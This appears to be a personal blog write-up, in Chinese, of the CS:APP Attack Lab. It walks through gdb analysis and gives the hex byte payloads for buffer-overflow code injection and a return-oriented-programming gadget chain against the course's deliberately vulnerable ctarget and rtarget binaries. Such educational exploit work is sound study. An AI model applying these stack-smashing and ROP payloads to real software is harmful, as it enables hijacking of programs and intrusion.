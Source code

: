 ```yaml
---
title: CS:APP Attack Lab记录
date: 2023-02-19 17:20:08 
tags: CS
---
```




# 前置知识

## 缓冲区溢出

将栈指针作为输入，则若缓冲区溢出，整个栈帧都会受影响。而栈需要保存返回的断点，若栈帧相邻，则可以改变返回函数的断点，从而返回到我们指定的一个函数。针对溢出，有三种处理方式

1. 设置段寻址的，每次的值不同的canary值，通过gdb可以知道单次的值

<img src="/images/reg_canary.png" alt="金丝雀值" style="zoom:50%;"/>

2. 每次的stack地址随机，不一定能跳装到字符串的地址运行。但全局变量和代码的位置不变。
3. 设置栈区的值为不可执行代码

ROP attack，借助已有的代码，和ret的特性，不断借助栈跳转代码以达到目的。

<img src="/images/ROP_attack.png" alt="ROP方式" style="zoom:50%;"  />

# 具体流程

## Quick Start

```bash
wget http://csapp.cs.cmu.edu/3e/target1.tar
tar -xvf target1.tar 
```

结合汇编代码中16进制数代表的指令，通过hex2raw输入程序，可以注入自己想要让其运行的程序，达到攻击的效果。注意不能包含0x0a，代表\n。其中借助Code injection完成3个touch函数的调用，借助Return-oriented programming完成两个函数的调用。

## Phase1

<img src="/images/phase_1.png" alt="phase 1" style="zoom:50%;"/>

先通过gdb判断汇编函数的入口在于stable_launch -> launch -> test

```bash
break *test
run -q
```

```assembly
 900 0000000000401968 <test>:
 901   401968:   48 83 ec 08             sub    $0x8,%rsp
 902   40196c:   b8 00 00 00 00          mov    $0x0,%eax
 903   401971:   e8 32 fe ff ff          callq  4017a8 <getbuf>
 904   401976:   89 c2                   mov    %eax,%edx
 905   401978:   be 88 31 40 00          mov    $0x403188,%esi
 906   40197d:   bf 01 00 00 00          mov    $0x1,%edi
 907   401982:   b8 00 00 00 00          mov    $0x0,%eax
 908   401987:   e8 64 f4 ff ff          callq  400df0 <__printf_chk@plt>
 909   40198c:   48 83 c4 08             add    $0x8,%rsp
 910   401990:   c3                      retq

# getbuf栈的大小为40Byte
00000000004017a8 <getbuf>:
 778   4017a8:   48 83 ec 28             sub    $0x28,%rsp
 779   4017ac:   48 89 e7                mov    %rsp,%rdi 
 780   4017af:   e8 8c 02 00 00          callq  401a40 <Gets>
 781   4017b4:   b8 01 00 00 00          mov    $0x1,%eax
 782   4017b9:   48 83 c4 28             add    $0x28,%rsp
 783   4017bd:   c3                      retq
 784   4017be:   90                      nop
 785   4017bf:   90                      nop

```

结合writeup可知C语言的函数为

```c
void test() {
	int val;
	val = getbuf();
	printf("No exploit. Getbuf returned 0x%x\n", val);
}
```

结合gdb判断跳转函数

```bash
# 对应返回函数的值
x $rsp
# call getbuf前的rsp: 0x5561dca8 
# call 之后rsp: 0x5561dca0 可以看出留出了8byte
# x $rsp : 0x00401976 对应返回的断点
# sub 0x28 rsp:0x5561dc78 作为输入的函数 因此只需要把 0x5561dca0对应的值改成touch1的地址即可
# 40Byte的字符串 将最后8byte作为返回地址输入即可
# 00 00 00 00 00 40 17 c0 
./hex2raw < phase_1.txt > phase_1-raw.txt
./ctarget -q < phase_1-raw.txt
# ? illlegal instruction 
# 注意小端序存储 原以为8byte
# 似乎只要4byte
x $rsp 0x5561dca0:     0x00401976
# pass
FF FF FF FF FF FF FF FF 
FF FF FF FF FF FF FF FF 
FF FF FF FF FF FF FF FF 
FF FF FF FF FF FF FF FF 
FF FF FF FF FF FF FF FF 
C0 17 40 00 00 00 00 00
```

## Phase2

<img src="/images/phase_2.png" alt="phase 2" style="zoom:50%;"/>

在栈的位置执行代码，输入特定的代码

```assembly
# 需要注入cookies的参数 32bit
mov 0x59b997fa %edi 

# 参考这个代码
bf 01 00 00 00          mov    $0x1,%edi
bf fa 97 b9 59 			

# 根据提示，应该根据ret进行跳装 当前rsp的值就是返回的值 
# ?不定长 5byte
bf fa 97 b9 59 # mov $0x59b997fa %edi  
c3  # retq
0x5561dc78 # pc1
0x4017ec # pc2
bf fa 97 b9 59 c3 FF FF
FF FF FF FF FF FF FF FF 
FF FF FF FF FF FF FF FF 
FF FF FF FF FF FF FF FF 
FF FF FF FF FF FF FF FF 
78 dc 61 55 00 00 00 00
ec 17 40 00 00 00 00 00 
```

## Phase3

<img src="/images/phase_3.png" alt="phase 3" style="zoom:50%;" />

edi为指针，使得值相同

```assembly
0x5561dc78 # pc1
0x4018fa # pc2
0x59b997fa #cookie

bf 80 dc 61 55 c3 FF FF
35 39 62 39 39 37 66 61 
00 FF FF FF FF FF FF FF 
FF FF FF FF FF FF FF FF 
FF FF FF FF FF FF FF FF 
78 dc 61 55 00 00 00 00
fa 18 40 00 00 00 00 00


# 似乎被覆盖了?
# 需要在更前面
bf b0 dc 61 55 c3 FF FF
FF FF FF FF FF FF FF FF 
FF FF FF FF FF FF FF FF 
FF FF FF FF FF FF FF FF 
FF FF FF FF FF FF FF FF 
78 dc 61 55 00 00 00 00
fa 18 40 00 00 00 00 00
35 39 62 39 39 37 66 61 
00 FF FF FF FF FF FF FF

# pass
```

## phase4

借助rop的gadget，源代码设计了gadget farm，便于操作。

```bash
objdump -d rtarget > b.asm
```

```assembly
# :/retq 在vim寻找retq可以借助ret来跳转
# :/48 c4 等操作码，观察可以使用的元素 结合指令表格确定需要的操作
# 在最后一次ret之前需要完成设置参数并移动寄存器

# 在start_farm和mid_farm之间，两个gadgets
# 借助popq的特性传参 58 - 5f
# 0x90 nop

# farm
4019ca:   b8 29 58 90 c3          mov    $0xc3905829,%eax
4019cf:   c3                      retq
4019a0:   8d 87 48 89 c7 c3       lea    -0x3c3876b8(%rdi),%eax

# gadget
4019cc:   58 					   popq %rax
4019cd:   90 					   nop
4019ce:   c3					   ret
 
4019a3:   89 c7					   mov %eax, %edi 
4019a5:   c3 					   ret

# 根据上面的跳转设置值
FF FF FF FF FF FF FF FF 
FF FF FF FF FF FF FF FF 
FF FF FF FF FF FF FF FF 
FF FF FF FF FF FF FF FF 
FF FF FF FF FF FF FF FF 
cc 19 40 00 00 00 00 00 /* ret gadget 1 */
fa 97 b9 59 00 00 00 00 /* popq %rax */
a3 19 40 00 00 00 00 00 /* ret 4019a3 */
ec 17 40 00 00 00 00 00 /* ret touch2 */

```

